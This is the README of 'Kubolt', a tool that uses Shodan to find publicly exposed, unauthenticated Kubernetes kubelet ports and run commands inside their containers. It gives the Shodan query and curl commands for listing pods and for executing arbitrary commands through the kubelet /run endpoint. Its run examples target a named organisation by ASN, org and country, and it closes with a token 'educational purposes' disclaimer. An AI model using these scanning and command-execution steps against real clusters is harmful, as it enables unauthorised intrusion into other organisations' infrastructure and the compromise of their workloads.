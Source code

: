 
# Wat?
**Kubolt** is simple utility for scanning public unauthinticated kubernetes clusters and run commands inside containers

# Why?
Sometimes, the kubelet port 10250 is open to unauthorized access and makes it possible to run commands inside the containers using getrun function from [kubelet](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go):
```go
// getRun handles requests to run a command inside a container.
func (s *Server) getRun(request *restful.Request, response *restful.Response) {
	params := getExecRequestParams(request)
	pod, ok := s.host.GetPodByName(params.podNamespace, params.podName)
	if !ok {
		response.WriteError(http.StatusNotFound, fmt.Errorf("pod does not exist"))
		return
	}
```

# Install 

**Using virtualenv**  
```python
virtualenv -p python3 kubolt3
source kubolt3/bin/activate
pip install -r requirements.txt
```
**Using poetry**
```python
poetry install
poetry run python kubolt.py
```

# How?
Okay, let's ask our friend Shodan :trollface:

The basic query is 
>ssl:true port:10250 404 

**Kubelet** uses port 10250 with SSL by default, 404 is the HTTP response without URL path. 

**Kubolt** asks Shodan by API for list of IP addresses and keeps them for other OSINT actions :grin:

Firstly, let's ask Kubelet for running pods and filter hosts where response doesn't contain `Unauthorized` and contains `container` so we can run command inside it. 

```bash
curl -k https://IP-from-Shodan:10250/runningpods/ 
```
Anyway, if you find the host without any running pods at the time, keep it for next time when pods might be started :grin: 

You can list all available pods from these requests:

```bash
curl -k https://IP-from-Shodan:10250/pods/
#or
curl http://IP-from-Shodan:10255/pods/ 
```

Next **kubolt** parse response and generate a new request as below:
```bash
curl -XPOST -k https://IP-from-Shodan:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=<command-to-run>" 
```
You can target companies more accurate using Shodan filters such as:
- asn
- org
- country
- net

# Run
```python3
python kubolt.py --query "asn:123123 org:'ACME Corporation'"
#or
python kubolt.py --query "org:'ACME Corporation' country:UK"
```

# Shodan 
**Kubolt** uses Shodan API and [Query Credits](https://help.shodan.io/the-basics/credit-types-explained) accordingly, if you run the tool without query filters then you will probably fire all your credits `¯\_(ツ)_/¯`  

# Demo
![demo](/github-scale.gif)

# Important
The Tool provided by the author should only be used for educational purposes. The author can not be held responsible for the misuse of the Tool. The author is not responsible for any direct or indirect damage caused due to the usage of the Tool.


